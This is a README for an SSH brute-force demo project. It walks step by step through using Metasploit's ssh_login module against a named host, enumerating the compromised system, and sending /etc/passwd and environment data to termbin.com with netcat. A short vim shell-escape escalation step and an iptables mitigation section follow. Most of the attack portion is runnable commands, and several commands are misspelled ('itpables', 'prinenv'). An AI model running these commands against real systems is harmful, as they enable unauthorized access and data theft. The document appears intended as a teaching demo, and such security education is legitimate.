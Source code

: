 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. *Note* this README and demo is still under developement.


Downloading Dictionary Files
------------

Clone the project on your local system:

    git clone https://github.com/sillihkram/Bruteforcing-SSH.git
    cd Bruteforcing-SSH/

unpack and prepare the list of commonly used users & passwords
    
    gunzip passwords.txt.gz
    cp passwords.txt /tmp/passwords.txt 
    cp users.txt /tmp/users.txt

Just so you are familiar, take at the content and format of the files 
    
    wc -l /tmp/passwords.txt # Notice this is a long list
    head /tmp/passwords.txt
    head /tmp/users.txt
    

# Installing Metasploit (RHEL, Fedora, CentOS)
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH
    # you may want to make this persistant add this line to your .bash_profile


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate

# Installing Metasploit (Mac)
------------

    brew install metasploit
     

# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploit modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success true
    set pass_file /tmp/passwords.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'podman:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l podman
    id
    sudo -l -U podman
    
podman appears to be a non privalaged user. Let's see what we can find out about the system...

    ls -lah $PWD
    firewall-cmd --list-ports >> $HOSTNAME.txt
    prinenv >> $HOSTNAME.txt
    cat /etc/passwd >> $HOSTNAME.txt
    yum list installed >> $HOSTNAME.txt
    
Let's grab a copy of the information we've collected 

    cat $HOSTNAME.txt | nc termbin.com 9999
    
# privilage escalation 
------------
Use vim to hide our shell

    vim 
    : ! /bin/bash -p
    
    
# Protecting a host from bruteforce
------------

Ensure iptables is installed:

    sudo yum install iptables -y

Add a simple rule to iptables to drop brute force attackes after an excessive amount of attempts

    itpables -P INPUT ACCEPT
    itpables -P FORWARD ACCEPT
    itpables -P OUTPUT ACCEPT
    itpables -N SSHBFATK
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --set --name SSH --mask 255.255.255.255 --rsource
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --update --seconds 600 --hitcount 50 --name SSH --mask 255.255.255.255 --rsource -j SSHBFATK
    itpables -A SSHBFATK -m limit --limit 5/min -j LOG --log-prefix "SSH: Detect brute force atk! " --log-level 6
    itpables -A SSHBFATK -j DROP
    
There is also an anisble playbook to create the above iptables rule. Try downloading it and running it against the local host:

    curl -LJO https://github.com/sillihkram/Bruteforcing-SSH/raw/main/mitigate-ssh-bruteforce.yaml

Now run the brute force exploit again and observe the behavior

    exploit

